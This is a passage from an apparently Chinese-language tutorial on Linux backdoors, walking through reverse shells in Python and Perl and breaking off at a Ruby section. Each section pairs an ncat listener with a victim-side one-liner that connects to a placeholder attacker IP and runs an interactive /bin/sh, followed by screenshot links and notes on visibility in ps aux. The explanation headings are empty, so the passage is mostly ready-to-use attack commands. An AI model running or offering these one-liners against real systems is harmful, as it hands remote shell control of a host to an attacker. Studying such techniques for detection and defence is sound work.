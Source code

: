 攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-10.png)

反弹shell进程在`ps aux`中可以检索到。

**原理**

## 0x03 反弹shell：python

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ATTACKER-IP]",10000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-3.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-2.png)

反弹shell进程在`ps aux`中可以检索到。

**原理**

## 0x04 反弹shell：perl

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
perl -e 'use Socket;$i="[ATTACKER-IP]";$p=10000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-5.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-4.png)

反弹shell进程在`ps aux`中不能检索到。

**原理**

## 0x05 反弹shell：ruby
